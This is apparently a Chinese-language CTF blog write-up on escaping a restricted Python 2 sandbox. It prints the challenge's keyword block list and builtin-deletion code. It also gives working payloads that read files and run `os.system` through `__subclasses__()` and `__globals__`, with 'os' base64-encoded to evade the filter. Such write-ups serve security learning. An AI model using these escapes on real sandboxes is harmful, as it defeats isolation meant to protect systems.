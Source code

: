```yaml
---
layout: post
title: python沙箱逃逸
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


future引用了python3的新特性，所以是不能直接回回显，得用print  
  
file函数可以读取。  

print(().__class__.__bases__[0].__subclasses__()[40]('./sx2.py').read())  

读取源码后:   

```
from __future__ import print_function
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]
while 1:
    print(">>>", end=' ')
    data = raw_input()
    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data

```

没有ban reload函数，所以思路就是  

>     reload(__builtins__)  可没想到不知道为啥不行。然后想别的办法。  

只禁用了builtins里的函数，那我们找<class 'site._Printer'>  

payload  
>     print("".__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os']).system('dir')（windows下，我的linux下是71)。  
  

可发现还是不行，原因是不仅仅把builtins里面的危险函数禁用了，还有关键字符一起禁用了(在最后的一个小的if判断里面)  

>     于是想到'os'变为'b3M='.decode('base64')  



最终的payload  
>     print("".__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['b3M='.decode('base64')]).system('dir')  
